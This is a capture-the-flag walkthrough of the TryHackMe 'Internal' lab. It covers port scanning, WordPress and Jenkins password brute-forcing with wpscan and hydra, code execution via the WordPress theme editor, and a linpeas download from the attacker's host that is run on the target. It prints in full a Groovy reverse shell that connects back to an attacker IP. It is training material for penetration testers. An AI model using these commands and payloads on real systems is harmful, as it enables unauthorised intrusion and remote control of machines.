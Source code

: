 > [!NOTE]
> You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 
> **Scope of Work**
> The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:
> - User.txt
> - Root.txt  
>     
> Additionally, the client has provided the following scope allowances:
> 
> - Ensure that you modify your hosts file to reflect internal.thm
> - Any tools or techniques are permitted in this engagement
> - Locate and note all vulnerabilities found
> - Submit the flags discovered to the dashboard
> - Only the IP address assigned to your machine is in scope
> (Roleplay off)
> I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.

>IP:10.10.103.212

```
echo "10.10.103.212   internal.thm" >> /etc/hosts 
```
# Recon

## nmap
```
nmap -p- -sC -sV -sS -Pn 10.10.103.212 -T5 -vv
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505003028.png)

## WEB
```
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://internal.thm/ -H 'Host: FUZZ.internal.thm' -fs 10918
```

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://internal.thm/FFUZ -ic -c
```

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505004157.png)
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505004002.png)
## Enum. and Brutforse wordpress
```
wpscan --url http://internal.thm/wordpress/ -U admin -P /usr/share/wordlists/rockyou.txt 
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505004052.png)

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505004322.png)
# RCE
```
https://www.revshells.com/
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505010044.png)
```
http://internal.thm/blog/wp-admin/theme-editor.php?file=index.php&theme=twentyseventeen
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505010012.png)
# LPE
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505010712.png)

```
/etc/passwd
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505010930.png)

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505011106.png)
# Flag1
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505011805.png)
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505011936.png)

> [!NOTE]
> Internal Jenkins service is running on 172.17.0.2:8080

### Linpeas
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505012543.png)
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505012615.png)

```
ssh -L  8080:127.0.0.1:8080 aubreanna@10.10.103.212 -N
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505014006.png)
## sqlmap
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505014720.png)
```
sqlmap -r 1 --batch --level=5 --risk=3
```
### broteforse jenkins
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password" -V -t 64
```
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505020813.png)

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505132618.png)

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505132746.png)
#### Revers shell
```
https://gist.githubusercontent.com/frohoff/fed1ffaab9b9beeb1c76/raw/7cfa97c7dc65e2275abfb378101a505bfb754a95/revsh.groovy
```

```
String host="10.11.134.170";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### SPAWN PTY
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505134230.png)
# Flag2
![Internal](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Internal/screenshots/20250505134401.png)